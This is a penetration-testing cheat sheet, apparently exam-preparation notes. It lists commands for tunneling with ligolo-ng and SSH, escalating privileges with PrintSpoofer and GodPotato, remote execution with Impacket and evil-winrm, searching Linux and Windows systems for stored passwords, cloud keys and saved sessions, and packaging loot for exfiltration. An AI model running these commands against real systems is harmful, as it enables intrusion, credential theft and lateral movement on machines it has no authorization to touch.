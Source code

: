 ## Pivoting & Tunneling
- `ligolo-ng proxy -listen 0.0.0.0:11601 -selfcert` – Operator-side listener setup.
- `./agent -connect <operator_ip>:11601 -ignore-cert -relay 0.0.0.0:1080` – Compromised host agent to start SOCKS tunnel.
- `ifconfig tun0` (Linux) / `ipconfig` (Windows) – Verify tunnel interface once ligolo is running.
- `ssh -L <local_port>:<internal_host>:<internal_port> <user>@<pivot>` – Traditional SSH local port forward when available.

## Exploitation & Priv-Esc Execution
- `PrintSpoofer64.exe -i -c cmd.exe` – Weaponize SeImpersonatePrivilege for SYSTEM shell.
- `GodPotato.exe -cmd "cmd.exe"` – Alternate SeImpersonate exploit for modern builds.
- `wmiexec.py <domain>/<user>:<pass>@<target>` – Execute commands remotely (Impacket).
- `psexec.py <domain>/<user>:<pass>@<target>` – Drop service for SYSTEM shell via SMB.
- `evil-winrm -i <target> -u <user> -p <pass>` – PowerShell remoting with convenience features.
- `./linpeas.sh` / `winPEAS.exe` – Keep handy for immediate post-exploitation enumeration.

## Config & Credential Leaks – Linux
- `grep -R \"password\" /etc/* 2>/dev/null` – Sweep system configs for clear-text credentials.
- `grep -R \"passw\" /var/www -n 2>/dev/null` – Hunt web app secrets inside code and configs.
- `grep -R \"DB_USER\\|DB_PASS\" /opt /var -n 2>/dev/null` – Locate database credential variables.
- `find / -type f -iname \"*config*\" -size -2M 2>/dev/null | grep -Ei \"(db|cred|pass)\"` – Surface small readable config files likely to hold secrets.
- `grep -R \"AWS_ACCESS_KEY_ID\" /home 2>/dev/null` – Search user directories for cloud keys.
- `grep -R \"sshpass\" / -n 2>/dev/null` – Detect scripted SSH password usage.
- `strings /var/lib/tomcat*/conf/* | grep -i pass` – Extract credentials from Java/Tomcat configs.
- `awk -F= '/password/ {print FILENAME\":\"$0}' $(find /etc -name \"*.ini\" -o -name \"*.conf\" 2>/dev/null)` – Report ini/conf entries containing “password”.

## Config & Credential Leaks – Windows
- `findstr /si \"password\" C:\\Users\\*\\AppData\\Roaming\\*.ini C:\\inetpub\\wwwroot\\*.*` – Search user and web configs.
- `findstr /spin \"password\" *.xml *.config *.ini` – Recursive clear-text search from current directory.
- `findstr /spin \"connectionString\" C:\\inetpub\\wwwroot\\*.config` – Identify DB connection strings in web apps.
- `findstr /spin \"pass\" C:\\ProgramData\\*.ini C:\\ProgramData\\*.txt` – Scan application data for secrets.
- `Get-ChildItem -Path C:\\ -Include *.config,*.ini,*.xml -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern \"password\",\"secret\"` – PowerShell-wide search for credential terms.
- `Get-ChildItem C:\\Users -Filter *.rdp -Recurse | Select-String -Pattern \"password 51\"` – Spot embedded RDP credential blobs.
- `reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\" /v DefaultPassword` – Check for auto-login passwords.
- `reg query \"HKCU\\Software\\SimonTatham\\PuTTY\\Sessions\" /s | find \"HostName\"` – Pull PuTTY session targets to review saved creds.

## Post-Exploitation Essentials
- `whoami && id` – Confirm privilege level on Linux.
- `hostname && ip a` – Document host and interface data.
- `dir C:\Users\*\Desktop` / `ls /home/*` – Hunt for proof flags.
- `tar czf /tmp/loot.tgz <files>` / `Compress-Archive` – Package artifacts for exfil when allowed.
- `del <uploaded_file>` / `rm <file>` – Clean up tooling per exam rules.
